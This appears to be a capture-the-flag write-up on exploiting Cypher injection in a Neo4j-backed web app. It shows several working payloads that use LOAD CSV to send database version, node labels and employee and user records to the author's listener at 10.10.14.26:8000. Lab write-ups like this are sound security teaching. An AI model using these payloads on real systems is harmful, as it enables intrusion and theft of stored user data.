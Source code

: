 ![image](https://github.com/0xCOrS/WriteUps/assets/97627828/967c4608-aad9-442e-91ed-54306f27f4b7)

There are two database applications running locally MySQL and Neo4J. The first one uses SQL syntax to execute queries, while the second one uses Cipher syntax to ex-ecute them. However, both query languages have things in common and among these things, we find special chars as “ ‘ “.

Sending “ ‘ ” as search parameter generates a HTTP code 500 response from the server.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/2713a66c-910c-4936-9f02-25cf5b8d9495)

As this app shows a lot of graphs and there is an open-source graph database in-stalled on the machine, I will start by trying some CipherInjections payloads from HackTricks book Cipher Injection section (“https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j”) to see if there is any kind of Cipher Injection vulnerability present.

To automate the trials, I select all the payloads present on HackTricks section, elabo-rate a small dictionary, and launch the intruder attack using burpsuite.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f378e3c6-23c7-4baf-aecc-55b94209fe74)

This doesn’t give us many information as every request containing “ ‘ ” will generate a HTTP Code 500 response from server. Using the payloads from the same HackTricks Book Section, I will try and get the Database Software Name, Version and Edition and send them via a HTTP request generated by the database itself. The following Cipher Query will be used:

``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/025e02b8-853b-4f20-96cd-6c493a6d734f)

This query, if executed, will send an HTTP request from the database to a “Simple HTTP Server” running on port 8000 of my machine containing the Neo4J software name, version, and edition.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/328752f2-7ffa-4645-9853-faf461e6eb6b)

Cipher Injection is found, software running is “Neo4J Kernel, version 5.6.0 Community Edition”. 

Next payload sent is aimed at retrieving the labels of the nodes present in the data-base and send them via HTTP request to my python server.

``` ' OR 1=1 WITH 1 as a CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.26:8000/?d=' + d as l RETURN 0 as _0 // ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/e31428c1-a59c-4ff3-bd91-fc77089ebc73)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/b9b9e19b-2db9-49f6-bb38-aa55b1421008)

With the information about the different nodes’ names and using the built-in function “key()” it is possible to get the properties of each node, and the value for each of the properties. Will also use “LOAD FROM CSV” function to send the information to my python web server.

Firstly, the information for the “employees” nodes:

``` ' OR 1=1 WITH 1 as a MATCH (e:employee) UNWIND keys(e) as result LOAD CSV FROM 'http://10.10.14.26:8000/?e=' + result +'='+toString(e[result]) as l RETURN 0 as _0 // ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/07a216b7-8a50-4821-8c31-e9e35e4b0186)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/2fffe5bc-9a6d-48a5-bb0d-98b005e6bc8a)

Now, the information for the “user” nodes:

``` ' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as result LOAD CSV FROM 'http://10.10.14.26:8000/?u=' + result +'='+toString(u[result]) as l RE-TURN 0 as _0 // ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/8bbd7a09-d491-4aa9-ac6b-2f2883d9dca4)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/531e33aa-504c-4c97-b67f-ed4ac6c1e55b)

```